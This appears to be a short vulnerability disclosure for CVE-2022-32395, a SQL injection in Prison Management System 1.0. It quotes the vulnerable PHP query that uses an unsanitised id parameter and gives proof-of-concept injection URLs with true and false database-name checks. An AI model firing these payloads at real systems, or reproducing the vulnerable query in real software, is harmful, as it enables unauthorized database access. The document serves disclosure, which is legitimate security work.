 # CVE-2022-32395
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/crimes/manage_crime.php:4`
```php
$qry = $conn->query("SELECT * from `crime_list` where id = '{$_GET['id']}' and `delete_flag` = 0 ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/crimes/manage_crime.php?id=1'-if(database()='pms_db',0,1)%23
```
- True : 
`http://localhost/pms/admin/crimes/manage_crime.php?id=1'-if(database()='pms_db',0,1)%23`
![True](./img/cve-2022-32395_true.png)
- False : 
`http://localhost/pms/admin/crimes/manage_crime.php?id=1'-if(database()='wrong',0,1)%23`
![False](./img/cve-2022-32395_false.png)